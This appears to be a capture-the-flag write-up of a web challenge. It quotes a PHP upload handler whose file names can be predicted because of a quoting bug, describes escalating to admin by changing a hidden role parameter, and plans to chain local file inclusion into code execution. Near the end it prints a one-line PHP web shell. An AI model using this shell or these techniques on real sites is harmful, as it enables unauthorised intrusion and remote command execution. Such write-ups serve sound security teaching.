upload.php
```php
$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}
```
Post request from profile update
![](https://i.imgur.com/pEfGOmK.png)

So we see that profile update seems to possibly take a role as an update but was not visible at the website. Role seems to denote 0 for false 1 for true for admin. Lets set it to 1.

![](https://i.imgur.com/8QOgnNz.png)


![](https://i.imgur.com/9xEtwBF.png)

Now we have file upload. From the source code of upload, we see that it only takes .jpg extentions. We just need to hit the file we upload, say a webshell. To do that we need the file name and chain LFI into code exececution.

```php
$file_hash = uniqid();

$file_name = md5('$file_hash' . time())
```

The end of the file is always _ [filename].jpg so thats easy
uniqid() and time() are both time functions used to create a unique name. uniqid() goes down to the microsecond while time() only goes to seconds.

Luckily, we don't need to script out thousands of hashes because the singl quotes wrapping file_hash. Its not taking the uniqid() rather, its taking it litterally as a string. We can grab the time() value of our file and generate the hash aka the name of our file and hit it. We just need a php webshell to upload.

```php
<?php echo passthru($_GET['cmd']); ?>
```
